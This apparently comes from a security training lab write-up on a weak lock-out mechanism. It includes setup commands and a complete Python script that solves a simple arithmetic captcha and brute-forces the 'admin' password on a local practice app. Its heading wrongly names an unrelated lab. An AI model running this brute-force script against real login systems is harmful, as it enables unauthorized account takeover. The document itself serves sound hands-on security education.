 # KBID xxx - Unreferenced-Files

## Running the app

```
$ sudo docker pull blabla1337/weak-lock-out-mechanism
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/weak-lock-out-mechanism
```

{% hint style="success" %}

{% endhint %}

Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrast Security](../../.gitbook/assets/contrast-security-logo.jpg)

## Reconnaissance

We need to test how the application is preventing brute force attacks. After we register a new user and we try to login we can see that the application is using a captcha to prevent brute force attacks.

![Login page](../../.gitbook/assets/weak-lock-out-mechanism-captcha.png)

If we try to login with a wrong password multiple times we can see that the application is only using a captcha to prevent brute force attacks.

## Exploitation

One of the most common username is "admin" and we can use a password dictionary or list to try to guess the password.

The application is using the endpoint `/login` to authenticate the user and it expects the following parameters: username, password and captcha like so:

```json
{
  "username": "admin",
  "password": "password",
  "captcha": "captcha"
}
```

When we fail to login the application makes a request to the endpoint `/captcha` to get a new captcha. The endpoint `/captcha` returns two numbers and an operator.

```json
{
  "number1": 1,
  "number2": 1,
  "operator": "+"
}
```

We can use the endpoint `/captcha` solve the captcha and login to the application using `/login` endpoint. But let's try to get the captcha from the HTML source code and brute force the login process.

```python
from urllib.request import urlopen
from requests import post
import re

url = "http://localhost:5000/login/"


def get_content_from_class(html, class_name):
    pattern = f'<div class="{class_name}">.*?</div>'
    match_results = re.search(pattern, html, re.IGNORECASE)
    content = match_results.group()
    content = re.sub("<.*?>", "", content)  # Remove HTML tags
    return content


def login(password):
    page = urlopen(url)

    if page.getcode() != 200:
        print("Error")
        return

    html_bytes = page.read()
    html = html_bytes.decode("utf-8")

    n1 = get_content_from_class(html, "n1")
    n2 = get_content_from_class(html, "n2")
    op = get_content_from_class(html, "op")

    captcha = eval(n1 + op + n2)

    login_body = {
        "username": "admin",
        "password": password,
        "captcha": captcha
    }

    res = post(url, json=login_body)
    return res.json()



with open("passwords.txt", "r") as f:
    passwords = f.readlines()
    # remove \n
    passwords = [password.strip() for password in passwords]
    # loop through passwords
    print("Trying passwords...")
    found = False
    for password in passwords:
        res = None
        while True:
            try:
                res = login(password)
            except:
                continue
            break
        if "message" in res:
            print("Password found: ", password)
            found = True
            break
    if not found:
        print("Password not found")
```

And we can see that the password is "qweasdzxc" one of the most common passwords.

> Note: We can just use the endpoint `/captcha` to solve the captcha and login to the application using `/login` endpoint. In this case we are getting the captcha information from the HTML source as an example.

## Additional sources

[owasp.org | Testing for Weak Lock Out Mechanism](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism)
